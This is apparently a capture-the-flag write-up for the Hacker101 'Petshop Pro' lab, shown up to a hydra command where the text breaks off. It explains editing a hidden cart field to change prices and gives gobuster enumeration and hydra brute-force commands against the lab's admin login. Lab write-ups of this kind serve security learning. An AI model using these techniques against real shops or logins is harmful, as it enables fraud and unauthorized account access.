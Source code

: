 ## Petshop Pro

This is an easy challenge

### Steps to repeoduce

1. Start the challenge
2. You should see a shop that contains 2 pets, a kitten and a puppy

### Flag 1

1. Add 2 items into the cart
2. While on the cart page, right click on the page and open `Inspect Elements`
3. While going through the code, you will notice a hidden part in the code with all items in the cart. The code looks like this
```

			<input type="hidden" name="cart" value="[[0, {&quot;logo&quot;: &quot;kitten.jpg&quot;, &quot;price&quot;: 8.95, &quot;name&quot;: &quot;Kitten&quot;, &quot;desc&quot;: &quot;8\&quot;x10\&quot; color glossy photograph of a kitten.&quot;}], [1, {&quot;logo&quot;: &quot;puppy.jpg&quot;, &quot;price&quot;: 7.95, &quot;name&quot;: &quot;Puppy&quot;, &quot;desc&quot;: &quot;8\&quot;x10\&quot; color glossy photograph of a puppy.&quot;}]]">
			<p><input type="submit" value="Check Out"></p>
```
4. Remove the `type="hidden"` part of the code and you will see an editable box show up on the page
5. From this input box, you can change the prices to any other number or zero and hit `checkout`
6. Your flag will be shown.

### Flag 2

1. Using gobuster, enumerate the directories on the pet shop domain
```
gobuster dir -u https://e87aacde34c038c97082f0f94069e1e4.ctf.hacker101.com/ -w /usr/share/wordlists/dirb/common.txt
```
2. You will discover a login page to an admin portal
3. Using hydra, we will bruteforce both the username and password for the login page

```
hydra -L /usr/share/wordlists/rockyou.txt -p "pass" e87aacde34c038c97082f0f94069e1e4.ctf.hacker101.com https-post-form "/login:username=^USER^&password=^PASS^:Invalid username" -t 32
```

```